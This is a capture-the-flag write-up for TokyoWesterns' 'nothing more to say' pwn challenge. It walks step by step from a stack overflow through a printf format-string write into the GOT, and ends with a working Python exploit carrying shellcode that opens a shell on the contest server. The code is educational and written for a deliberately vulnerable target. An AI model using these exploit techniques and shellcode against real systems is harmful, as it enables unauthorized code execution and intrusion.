





### nothing more to say

_Japan is fucking hot._

`nc nothing.chal.ctf.westerns.tokyo 10001`

[`warmup.c`](warmup.c)  
[`warmup`](warmup)

**Tags:** _pwn_ _warmup_


#### Preamble

Given that TokyoWesterns is a top 10 team (source: [ctftime.org](ctftim.org)), the problems are most likely targeted for top 10 teams--a _warmup_ is still _hard_ for a n00b.  As of this writing I've done less than 10 CTFs in five years.  Security research is not my occupation--this is what I do for fun.

So, there may be easier ways to do this.  This took me about 10 hours to figure out.  I worked on this on/off over the 48 hour contest period.  Some research, some experiments, etc...  I'll do my best to link to all references that I used along the way.


#### Solution

> If you just want the answer, the code, and prefer to learn that way (I highly support that way of learning), then jump to the end.  If you want to follow my thought process and failures, read on.

##### Research

Using `file` to determine it is a Linux 64-bit binary (`ELF 64-bit LSB executable, x86-64`) and giving it a quick run in a Ubuntu 18 Docker container will produce the following output:

```
Hello CTF Players!
This is a warmup challenge for pwnable.
We provide some hints for beginners spawning a shell to get the flag.

1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.
2. NX-bit is disabled. You can run your shellcode easily.
3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.

If you get stuck, we recommend you to search about ROP and x64-shellcode.
Please pwn me :)
```

The very polite and kind organizers are basically telling everyone exactly what they need to do--just about anything goes here, except ASLR (more on this later).

This can also be verified with `gdb` with `gef` extensions, no PIE, NX, Canary, etc...



Now, the code:

```
// gcc -fno-stack-protector -no-pie -z execstack warmup.c -o warmup
#include <stdio.h>

void init_proc() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
}

int main(void) {
    char buf[0x100];
    init_proc();
    puts("Hello CTF Players!\nThis is a warmup challenge for pwnable.\nWe provide some hints for beginners spawning a shell to get the flag.\n\n1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.\n2. NX-bit is disabled. You can run your shellcode easily.\n3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.\n\nIf you get stuck, we recommend you to search about ROP and x64-shellcode.\nPlease pwn me :)");
    gets(buf);
    printf(buf);
    return 0;
}
```

Well, there's your problem, `gets`.

> _The gets() function cannot be used securely._ -- `man 3 gets`

All that is needed is to smash the stack, overwrite the return address with an address further down the stack with a NOP sled and some shellcode.  This will take about 10 min. :-)

##### Smashing the Stack
 
> Liveoverflow's series on [Binary Exploitation / Memory Corruption by LiveOverflow](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) is a good place to start if this is new to you.

A small Python program ([generator.py](generator.py)) ripped directly from [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) with a few mods can be used generate a nice payload to overflow the buffer:

```
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABYABZACBACCACDACEACFACGACHACIACJACKACLACMACNACOACPACQACRACSACTACUACVACWACXACYACZADBADCADDADEADFADGADHADIADJADKADLADMADNADOADPADQADRADSADTADUADVADWADXADYAD
```

> I prefer this over `AAAABBBBCCCC...` since at any point in the string, that point, plus the next three characters (and hence the rest of the string) is unique.

```
./generator.py >genload
head -c300 <genload >payload
```

The `char buf` is only 256 (`0x100`) bytes, so 300 chars is just fine.

> If you blast 1000s of chars in there you get so far down the stack you create other problems (I did spend a fair amount of time trying to exploit that as well--fail).

Next, startup GDB+GEF and test the payload:

```
gdb ./warmup
```



> gef, peda, pwngdb, etc... are all nice extensions to GDB.

At the top you'll observe a `SIGSEGV, Segmentation fault.` signal crashing `warmup`.  If you look at the stack you can see why, `rsp` has De Bruijn's wonderful garbage in it: `NADO...` (and more down the stack).  What needs to be there is a valid address to return to, IOW, control of the Instruction Pointer (`rip`) has been achieved.  Level up.

To test, create a payload with just 8 `A`'s starting from `NADO...`:

```
head -c300 <genload | sed 's/NADO.*/AAAAAAAA/' >payload
```

Hit the Up Arrow and try again:



`AAAAAAAA` in `rsp`, as expected.  Also notice the address of `rsp`: `0x00007fffffffe588`.

##### Craft Failed Exploit (it is how you learn)

This should be fairly trivial, just replace `AAAAAAAA` with an address down the stack, and then populate the stack with Intel machine code:

```
import struct

# len of payload file without the trailing AAAAAAAA
payload = "A"*264

# adress of stack (rsp) from gdb, plus 16 bytes (some wiggle room)
payload += struct.pack("<Q",0x00007fffffffe588+16)

# some nop, for a nop sled for variable env size
payload += "\x90"*0x100

# this is x86's debugger instruction, used for testing before attempting shellcode
payload += "\xCC"*4

print(payload)
```

Then:

```
python2.7 exploit.py >payload
```

Then, Up Arrow and play again:



Boom!  From the top down first look at `SIGTRAP, Trace/breakpoint trap`.  That is the `0xCC` instruction from the `payload` just created.  From the `code:x86:64` section this is also evident; the `int3` disassembly is `0XCC`.  Level up.

Next, outside of GDB:

```
cat payload | ./warmup
```
```
Hello CTF Players!
This is a warmup challenge for pwnable.
We provide some hints for beginners spawning a shell to get the flag.

1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.
2. NX-bit is disabled. You can run your shellcode easily.
3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.

If you get stuck, we recommend you to search about ROP and x64-shellcode.
Please pwn me :)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
Segmentation fault
```

Seg fault.  Game over.

> I am not going to detail all the time I spent troubleshooting this, but this can be reduced to two problems.
> 
> First, and the most common problem is the size of the environmental variables.  If you Google for _why does my exploit not work outside of GDB_.  There are many recommendations from how to run GDB, to cleaning up your env, to NOP sleds, etc...  In the end I found a few ways to print `rsp` by modifying `warmup.c`.  The offset was a consistent `304` bytes vs. when running in GDB.  After changing the address, this worked!  However, it did not work with `nc nothing.chal.ctf.westerns.tokyo 10001`.  And that is the second problem: Address Space Layout Randomization (ASLR).
> 
> I already new from the start, that ASLR could be a potential problem.  But I was not sure if the organizers setup their system with ASLR enabled (harder) or disabled (stupid simple).
> 
> What also kind of screwed me was working in a Docker container on MacOS.  For some reason ASLR is disabled.  If I switch to a Linux VM the "exploit" failed because of ASLR, however if I disable with `echo 0 >/proc/sys/kernel/randomize_va_space`, then it works just like in the container.  Just run `ldd warmup` a few times and see if the addresses change or not, and you will get my point.

##### More Research

After a bit of Googling for _Buffer Overflow with ASLR_, I found an article that suggested looking for a (ROP) gadget in the code that executed `jmp rsp`.  That is actually perfect.  After the _over_-writeable return pointer gets popped off the stack (into `rip`) to change the execution flow, `rsp` gets incremented (down the stack) to the NOP sled.  Sadly looking at objdump output and messing around with _ropper_ (ROP chain generator), I didn't see a clear way to to set an address that would then bounce back to executing the stack.

##### Even More Research

After an hour of so of Googling I ran into Liveoverflow's videos again, this time the `printf` exploit videos; if you look at the code there is a "classic" `printf` exploit.

> _%n can be used to write arbitrary data to potentially carefully-selected addresses._ -- `man 3 printf`.

Clearly the organizers gave us that exploit with `printf(buf)`.

I experimented with this for a while.  With a bit of effort you can write any value to any _writable_ region of memory.  The exploit format string is `"%Nx %B$n ADDRESS"`.  Where `N` is a larger number.  This will have `printf` print a ton of whitespace and increment an internal counter of how many chars have been printed with that invocation of `printf`.  `B` is the number of reg/stack pointers to skip to `ADDRESS`.  This takes trial and error, with practice you could probably write some code to do all the math for you.  `%n` is the magic.  If you do all your math right, you'll write your `N` value to `ADDRESS`.  And you can do this repeatably, to multiple locations.  Scary cool.

At this point, I know I want `jsr rsp` written to an address, and I know how to do it, but where to write it, that is a static address, i.e. not effected by ASLR?

Back to Googling, and again Liveoverflow videos.  This time on GOT.  The full GOT PLT exploit is not needed, the only thing we need is a stable place to write bytes.  GOT it! :-)

##### Finally, the Exploit

First, create a C program to get the `jsr rsp` byte values?

```
echo 'void main() { __asm__("jmpq *%rsp"); }' >test.c
gcc -o test test.c
objdump -M intel -d test | grep 'jmp' | grep rsp
```
```
 5fe:	ff e4                	jmp    rsp
```

`0xe4ff` (little endian), nice and small.

Next, where to write `0xe4ff` to:

```
objdump -h warmup | grep got.plt
```
```
 21 .got.plt      00000038  0000000000601000  0000000000601000  00001000  2**3
```

`0x601000` looks promising.

Next, craft and tryout payload:

```
import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)

print payload
```

Above is a `printf` format string that will get passed to `gets`, and `printf` will just print it.  It is important the format string be divisible by 8 so that the target address is not split across the stack.

The payload up to this point needs to output via `printf` `0xe4ff` (58623) bytes. The `"%58622x "` string will use 8 bytes of memory (reg/stack), and will output exactly 58622 bytes + 1 for the trailing space to stdout.

When `printf` parses `%08$n`, nothing is output to stdout.  Instead it skips to the 8th (or 9th if array base 0) 64-bit pointer, and reads that address, then writes the output byte counter (58623) to that address.

Why the 8th pointer?  To find it, run this repeatably with different values until you find your address on the stack:

```
python -c 'print "NNNNNNx " + "%08$p   " + "AAAAAAAA"' | ./warmup | grep NNNNNN
```
```
NNNNNNx 0x4141414141414141   AAAAAAAA
```

The `print` statement is 24 bytes long, same as above, but instead of printing a lot of padding and a real address use `NNNNNN` and `AAAAAAAA`.  As soon as there is a match (`0x4141414141414141`), the argument to `%n` is known.

To test the payload, start up `gdb warmup` and set a breakpoint at `main`'s `ret`:


Now, run it with `run <payload` and check the value at `0x601000`:



Execution stopped just before `ret`, and the `printf` successfully overwrote the GOT PLT with `jmp rsp`.

The rest is easy.  It is identical to the first attempt.  Continue to write to the buffer until overflow, use `0x601000` as the return address, that will then `jmp rsp` back to the stack where the machine code lives:

```
#!/usr/bin/env python

import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)
overflow_len=264 # predetermined from first attempt
payload +=  "A"*(overflow_len-len(payload))
payload += struct.pack("<Q",0x601000)
payload += "\xCC"

print payload
```
```
./exploit.py | ./warmup
```
```
... 58600+ spaces
f7dcfa83    Trace/breakpoint trap
```
The ~58600 spaces and `f7dcfa83` is from the `printf` format exploit.

`Trace/breakpoint trap` again, is from `0xCC` and is the expected output.

Lastly, go shopping for some shellcode.

> I used code from here [http://shell-storm.org/shellcode/files/shellcode-905.php](http://shell-storm.org/shellcode/files/shellcode-905.php).

Final `exploit.py`:

```
#!/usr/bin/env python

import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)
overflow_len=264
payload +=  "A"*(overflow_len-len(payload))
payload += struct.pack("<Q",0x601000)
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

print payload
```

Local test:

```
(./exploit.py; cat) | ./warmup
```
```
... lots of space
f7dcfa83
```

The combination of `cat` and the shellcode has produced an _interactive_ shell, test with `id`:

```
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```

##### Get the Flag

```
(./exploit.py; cat) | nc nothing.chal.ctf.westerns.tokyo 10001
```
```
... lots of space
8b5d5a83
```
Type:

```
id
```
```
uid=40231 gid=40000(warmup) groups=40000(warmup)
```
We're in!  What's here?

```
ls
```
```
flag
warmup
```
Get the flag:

```
cat flag
```
```  
TWCTF{AAAATsumori---Shitureishimashita.}
```


